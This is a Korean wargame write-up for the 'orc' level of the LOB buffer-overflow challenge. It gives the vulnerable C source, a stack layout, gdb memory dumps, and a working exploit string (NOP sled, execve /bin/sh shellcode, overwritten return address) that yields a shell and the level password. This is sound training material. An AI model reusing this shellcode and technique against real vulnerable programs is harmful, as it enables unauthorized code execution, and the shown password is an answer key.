 ============================================================================================================
[redhat-lob] orc
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="buffer address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[1][47]=="\\bf" 조건을 만족하고 해당 사이즈보다 큰 값을 입력할 경우 오버플로우가 발생한다.


.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[1][47]=="\\bf" 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행

.. code-block:: console

    $ ./orc `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./orc `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb)
    Note: breakpoint 1 also set at pc 0x8048500.
    Breakpoint 2 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/goblin/orc1 `python -c 'print "a"*47+"\xbf"'`

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffaf8       -1073743112

    (gdb) i reg $ebp
    ebp            0xbffffb18       -1073743080

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffaf8:     0xbffffb18      0x400309cb      0x00000002      0xbffffb44
    0xbffffb08:     0xbffffb50      0x40013868      0x00000002      0x08048450
    0xbffffb18:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb28:     0xbffffb44      0x08048390      0x0804860c      0x4000ae60
    0xbffffb38:     0xbffffb3c      0x40013e90      0x00000002      0xbffffc37
    0xbffffb48:     0xbffffc49      0x00000000      0xbffffc7a      0xbffffc9c
    0xbffffb58:     0xbffffca6      0xbffffcb4      0xbffffcd3      0xbffffce2
    0xbffffb68:     0xbffffcfb      0xbffffd17      0xbffffd36      0xbffffd41
    0xbffffb78:     0xbffffd4f      0xbffffd91      0xbffffda3      0xbffffdb8
    0xbffffb88:     0xbffffdc8      0xbffffdd4      0xbffffdf2      0xbffffdfd
    0xbffffb98:     0xbffffe0e      0xbffffe1f      0xbffffe27      0x00000000
    0xbffffba8:     0x00000003      0x08048034      0x00000004      0x00000020
    0xbffffbb8:     0x00000005      0x00000006      0x00000006      0x00001000
    0xbffffbc8:     0x00000007      0x40000000      0x00000008      0x00000000
    0xbffffbd8:     0x00000009      0x08048450      0x0000000b      0x000001f7
    0xbffffbe8:     0x0000000c      0x000001f7      0x0000000d      0x000001f7
    0xbffffbf8:     0x0000000e      0x000001f7      0x00000010      0x0fabfbff
    0xbffffc08:     0x0000000f      0xbffffc32      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x00000000      0x00000000      0x36690000      0x2f003638
    0xbffffc38:     0x656d6f68      0x626f672f      0x2f6e696c      0x3163726f
    0xbffffc48:     0x61616100      0x61616161      0x61616161      0x61616161 
                          ^               ^               ^ argv[1] = 0xbffffc51
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc78:     0x454c00bf      0x504f5353      0x7c3d4e45      0x7273752f
    ==========================================================================



RET 주소를 buffer 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode (21)
    SFP     (4byte)  <- shellcode (4)
    RET     (4byte)  <- buffer address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 buffer 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + buffer address

.. code-block:: console

    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault
    
    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x51\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀Q▒▒▒
    bash$ whoami
    orc
    bash$ my-pass
    euid = 504
    cantata

